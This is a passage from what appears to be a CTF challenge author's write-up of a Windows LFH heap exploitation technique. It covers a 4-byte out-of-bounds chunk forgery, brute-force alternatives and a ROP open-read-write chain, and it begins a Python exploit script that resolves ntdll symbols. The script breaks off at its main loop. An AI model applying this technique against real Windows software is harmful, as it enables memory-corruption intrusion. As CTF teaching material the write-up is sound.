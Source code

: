 Now have all leaks necessary, ROP our way through open-read-write chain and exit from interpreter to pop out our flag.

## Remarks

The chunk size values of 0x48 and 0x168 are intentionally chosen by the author to reveal the technique easier, removing the need to do additional heap feng shui between UserBlocks. This technique can be generalized when non-LFH blocks of arbitrary size can be used, for example creating a heap layout of `Large Chunk UserBlocks | Padding with non-LFH block | Small Chunk UserBlocks` to forge a chunk from the `Small Chunk UserBlocks` into the `Large Chunk UserBlocks` using `Padding with non-LFH block` to satisfy the alignment requirement.

Also, the derandomization process is unnecessary if we were to brute-force a bit. Since our target UserBlocks for 0x48-sized objects only have 0x32 total chunks allocatable, we can try overwriting any chunk and see if we've succeeded in 1/(0x31 * 0x30) chance (randomly picking chunk24 and chunk25). Since I wanted to deter brute-forcing, I've added an easy PoW.

AFAIK, this technique has never been disclosed publicly (maybe due to its rather special limitation of 4-byte OOB RW limited to LFH chunks). If you've seen this technique before, please feel free to contact and enlighten me :)

## Exploit Code

```python
### This exploit assumes Windows environment with:
###   python2 with modules:
###     customized pwintools(https://github.com/leesh3288/pwintools)
###     bugfixed pdbparse(https://github.com/leesh3288/pdbparse)
###     pysha3
from pwintools import *
from pdbparse.symlookup import Lookup
from ast import literal_eval
from subprocess import check_output
from sha3 import sha3_256


def inject(pe, sym, name):
    if name not in pe.symbols:
        pe.symbols[name] = next(
            sym.locs[base, limit][sym.names[base, limit].index(name)]
            for base, limit in sym.addrs
            if name in sym.names[base, limit]
        )


DEBUG = False
binary = PE(r'..\dist\winsanity.exe')
binary_sym = Lookup([(r'..\dist\winsanity.pdb', 0)])
inject(binary, binary_sym, 'main')

if DEBUG:
    ntdll = PE(r'C:\Windows\System32\ntdll.dll')
    kernel32 = PE(r'C:\Windows\System32\kernel32.dll')
else:
    ntdll = PE(r'..\dist\libs\ntdll.dll')
    kernel32 = PE(r'..\dist\libs\kernel32.dll')

# downloadable from Microsoft Symbol Server given ntdll.dll
ntdll_sym = Lookup([(r'.\ntdll.pdb', 0)])
inject(ntdll, ntdll_sym, 'RtlpStaticDebugInfo')
inject(ntdll, ntdll_sym, 'TlsExpansionBitMap')


while True:
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf
